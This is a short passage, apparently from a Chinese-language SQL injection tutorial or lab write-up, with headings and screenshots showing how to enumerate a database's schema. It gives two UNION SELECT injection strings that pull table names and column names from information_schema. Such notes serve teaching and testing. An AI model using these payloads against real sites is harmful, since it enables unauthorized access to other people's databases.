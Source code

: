 ### 获取表名

通过SQL拼接串：``' UNION SELECT table_name FROM information_schema.tables WHERE table_schema='数据库名'  ``获取表名
![03](./img/003.png)



### 获取字段名
通过SQL拼接串：``' UNION SELECT column_name FROM information_schema.columns WHERE table_name='表名'  ``获取字段名